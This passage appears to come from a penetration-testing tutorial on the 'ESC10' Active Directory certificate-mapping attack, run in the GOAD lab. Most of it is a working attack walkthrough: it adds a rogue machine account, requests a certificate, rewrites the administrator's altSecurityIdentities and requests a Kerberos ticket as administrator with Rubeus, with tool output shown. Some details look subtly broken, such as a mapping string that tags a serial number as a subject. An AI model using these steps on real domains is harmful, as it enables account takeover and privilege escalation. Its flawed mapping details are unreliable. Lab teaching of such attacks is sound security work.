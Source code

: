 ```bash
```

## ESC10: Weak Certificate Mappings

ESC10 exploits weak certificate-to-account mapping configurations and certificate mapping vulnerabilities.

### Attack Vectors

**ESC10A - Write Access on altSecurityIdentities:**
- Attackers with write permissions on user objects can modify `altSecurityIdentities`
- This attribute maps certificates to user accounts
- Malicious mapping allows certificate-based authentication as other users

**ESC10B - Weak Certificate Mapping Methods:**
- Exploits weak `CertificateMappingMethods` registry settings
- Allows certificate authentication with partial subject matching

### Exploitation Example

Let's try ESC10A in GOAD:

```bash
# ESC10A - Modify altSecurityIdentities attribute
# First, create a computer account and request machine certificate
addcomputer.py -computer-name 'EVIL$' -computer-pass 'Password123!' essos/missandei:fr3edom@meereen.essos.local

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account EVIL$ with password Password123!.

# Request machine certificate for our new computer
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:Machine /machine

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\EVIL$
[*] Template                : Machine
[*] Subject                 : CN=EVIL, CN=Computers, DC=essos, DC=local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 18

# Extract certificate details (issuer, serial number)
certutil -dump evil.pem

Certificate:
    Serial Number: 6100000028f9b2d3c5a1b4e87a00000000000028
    Issuer: CN=ESSOS-CA, DC=essos, DC=local
    Subject: CN=EVIL, CN=Computers, DC=essos, DC=local

# Modify target user's altSecurityIdentities to map to our certificate
$dn = "CN=administrator,CN=Users,DC=essos,DC=local"
$mapping = "X509:<I>CN=ESSOS-CA,DC=essos,DC=local<S>6100000028f9b2d3c5a1b4e87a00000000000028"
Set-ADObject -Identity $dn -Replace @{'altSecurityIdentities' = $mapping}

# Authenticate as administrator using our EVIL$ machine certificate

Rubeus.exe asktgt /user:administrator /certificate:evil.pfx /password:Password123!

[*] Action: Ask TGT
[*] Using certificate mapping via altSecurityIdentities
[*] Using PKINIT with etype rc4_hmac and subject: CN=EVIL, CN=Computers, DC=essos, DC=local
```